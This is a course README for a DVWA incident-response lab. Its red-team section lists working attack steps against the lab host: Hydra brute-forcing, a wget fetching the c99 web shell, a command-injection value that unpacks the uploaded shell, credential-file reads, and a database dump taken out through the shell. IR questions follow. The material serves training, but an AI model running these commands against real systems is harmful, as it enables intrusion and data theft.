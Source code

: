 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a vulnerable webapp that is ready to be hacked out of the box.

## Presentation
Intro to IR: https://docs.google.com/presentation/d/1URpDkIjIGJbsgWn-Dqu-diC3PAdERRVYj4I2FfBWvqk/edit?usp=sharing

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host http://dvwa.hackinglab.beer`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: ss -l -n -t
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Incident reponse demo
### Connecting to machine
0. ssh guardian@dvwa.hackinglab.beer -p5000

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.

## Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you won't receive any points.
0. Create a script in with a programming language of your choice to do everything in the “understanding the machine” section, items listed below, and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY

## Red team challenge
### Create red team challenge container
0. Browse to http://dvwa.hackinglab.beer:9999
0. Select "Login"
    1. Username: admin
    1. Password: password
0. Login
0. Select "DVWA security" on the left
0. Set the security level to "medium"

### Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:8080
* DO NOT ATTACK port 80

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
